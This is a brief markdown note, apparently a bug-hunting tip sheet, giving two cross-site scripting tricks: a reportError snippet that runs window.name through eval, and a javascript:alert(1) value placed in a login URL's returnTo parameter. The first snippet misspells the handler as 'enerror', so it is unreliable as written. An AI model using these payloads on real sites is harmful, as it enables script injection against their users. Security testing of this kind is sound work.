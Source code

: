 # XSS
1-The new reportError() function enables a quite amusing XSS vector:
```
window.name='alert(1)'
reportError(name , enerror=eval)
```
2-If you see `returnTo=` in login url , add `javascript:alert(1)` and login > xss alert
